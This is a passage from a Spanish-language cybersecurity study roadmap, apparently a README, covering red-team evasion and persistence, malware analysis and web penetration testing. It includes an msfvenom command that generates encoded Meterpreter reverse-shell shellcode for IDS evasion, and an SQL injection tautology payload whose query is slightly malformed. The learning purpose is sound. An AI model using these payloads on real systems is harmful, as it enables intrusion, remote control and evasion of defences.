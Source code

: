 * Utiliza herramientas como Metasploit para realizar pruebas de explotación ética en tus sistemas o en entornos de laboratorio.
* Investiga y practica con diferentes métodos de ataques de fuerza bruta, como ataques a servicios web o bases de datos.
* Crea un script personalizado en Python que realice un escaneo de puertos y registre los resultados en un archivo.
* Investiga en profundidad sobre las certificaciones que te interesan y prepárate para un examen de certificación de nivel intermedio.
## 9. Red Team Avanzado
Dominar los conceptos en el nivel 3 te proporcionará habilidades avanzadas en ciberseguridad y te permitirá llevar a cabo pruebas de penetración de mayor complejidad y abordar amenazas más sofisticadas. Si tienes interés en una carrera en Red Team, estas habilidades son esenciales para una carrera exitosa en el campo de la ciberseguridad como profesional de Red Team.
### 9.1. Evasión y Persistencia
La evasión y la persistencia son aspectos críticos en las operaciones de Red Team. Un ejemplo sería aprender a evadir sistemas de detección de intrusiones (IDS) y mantener el acceso persistente en sistemas comprometidos. Para evasión, podrías investigar técnicas como la inyección de shellcode en procesos legítimos o el uso de técnicas anti-forenses. Para persistencia, podrías aprender sobre el uso de troyanos y backdoors para mantener el acceso a largo plazo a un sistema. Por ejemplo, investiga sobre técnicas de evasión de firewalls y IDS. Un ejemplo sería utilizar técnicas de ofuscación en un shellcode para evitar ser detectado por un IDS. Otro ejemplo, puede ser ofuscar un shellcode de Metasploit para evadir la detección. Además la persistencia se refiere a mantener el acceso a largo plazo en un sistema comprometido. Por ejemplo, puedes aprender a utilizar herramientas como PowerShell Empire para establecer persistencia en un sistema Windows.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port -f c -e x86/shikata_ga_nai
```
### 9.2. Análisis de Malware
#### Análisis de Código Malicioso
El análisis de malware implica descomponer y comprender cómo funcionan los programas maliciosos. Por ejemplo, puedes estudiar un archivo sospechoso, como un archivo adjunto de correo electrónico, para identificar su comportamiento y determinar si es malicioso. Estudiar el análisis de malware ayuda a comprender cómo funcionan las amenazas avanzadas. Es decir que el análisis de malware implica el estudio de programas maliciosos para comprender su comportamiento y propósitos. Un ejemplo sería el análisis estático, donde se examina el código del malware sin ejecutarlo. Un ejemplo sería analizar un archivo sospechoso en un entorno controlado para esto puedes utilizar herramientas como IDA Pro o Ghidra para analizar el código ensamblador del malware y buscar indicadores de comportamiento malicioso.
#### Análisis Dinámico
El análisis dinámico implica ejecutar malware en un entorno controlado para observar su comportamiento en tiempo real. Por ejemplo, puedes utilizar una máquina virtual aislada para ejecutar malware y observar cómo se comunica con servidores remotos, qué archivos crea o modifica y qué acciones realiza.
## 10. Pruebas de Penetración Avanzadas
A esta altura, puedes explorar técnicas más avanzadas de pruebas de penetración. Por ejemplo, el análisis de aplicaciones web implica buscar vulnerabilidades en aplicaciones web y servicios en línea. Un ejemplo de esto podría ser la búsqueda de vulnerabilidades de inyección SQL en una aplicación web, o el análisis de IoT. Por ejemplo investiga con detalle sobre el concepto de "Inyección de SQL" y realiza pruebas en un entorno de laboratorio.
### 10.1. Análisis de Aplicaciones Web
El análisis de aplicaciones web implica buscar vulnerabilidades en aplicaciones web y servicios en línea. Como ya dijimos, un ejemplo es la identificación de una vulnerabilidad de Inyección SQL en una aplicación web.
```
SELECT  FROM usuarios WHERE nombre = '' OR '1'='1';
```